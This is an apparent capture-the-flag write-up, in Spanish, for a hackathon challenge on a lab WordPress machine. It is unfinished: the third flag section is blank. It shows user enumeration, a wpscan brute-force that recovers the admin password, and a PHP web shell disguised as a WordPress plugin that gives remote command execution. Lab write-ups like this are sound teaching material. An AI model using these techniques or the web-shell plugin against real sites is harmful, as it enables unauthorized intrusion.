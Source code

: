 # Hackaton UdG - Reto 2

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)


### Flag 1 

Lo primero que encontramos es en la ruta `htpp://<IP>/wp1/` así que nos encontramos ante una máquina con WordPress.

Encontramos el usuario `admin` con la comanda `curl -s -L http://<IP>/wp1/?author=1` y con esta información y mediante fuerza bruta con la herramienta `wpscan` y ejecutando el siguiente comando 

```shell
wpscan --url http://10.0.2.12/wp1/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --enumerate u --disable-tls-checks > wpscan-pass.txt
``` 
sacamos las credenciales: `admin:spongebob`

> [!NOTE]
> Problema de resolución de DNS, se tuvo que añadir una línea `echo "10.0.2.12 reto02.hackaton" | sudo tee -a /etc/hosts
`

### Flag 2 

Una vez dentro del WordPress como admin y haciendo uso de la sección de Medios podemos subir una `reverse shell`

```shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php

```
> [!NOTE]
> shell.php
> Lo siento, no tienes permisos para subir este tipo de archivo.

Como de primeras no nos deja subir archivos con esta extensión, pasamos al plan de subir la _reverse shell_ como un plugin de WordPress, este apartado solo acepta archivos de extensión **.zip** así que habrá que crear un "pseudo-plugin" ocn la _reverse shell_ dentro  

```php
<?php
/*
Plugin Name: Shell Plugin
Plugin URI: http://hackaton
Description: Plugin de prueba para ejecución remota.
Version: 1.0
Author: Hacker
Author URI: http://hackaton
*/

if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>

```
después lo pasamo a **.zip**

```shell
zip -r shell-plugin.zip shell-plugin.php

```
lo subimos como plugin y lo activamos. Para hacer la prueba de que funciona, simplemente podemos usar la comanda siguiente:

```shell
curl -s http://reto02.hackaton/wp1/wp-content/plugins/shell-plugin.php?cmd=id | head -n 10

```

lo que nos mostrará el siguiente resultado:

```html
uid=33(www-data) gid=33(www-data) groups=33(www-data)

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1" />
<meta name='robots' content='noindex, nofollow' />
        <style>img:is([sizes="auto" i], [sizes^="auto," i]) { contain-intrinsic-size: 3000px 1500px }</style>
        <title>Página no encontrada &#8211; HACKATÓN &#8211; RETO 02</title>

```


### Flag 3


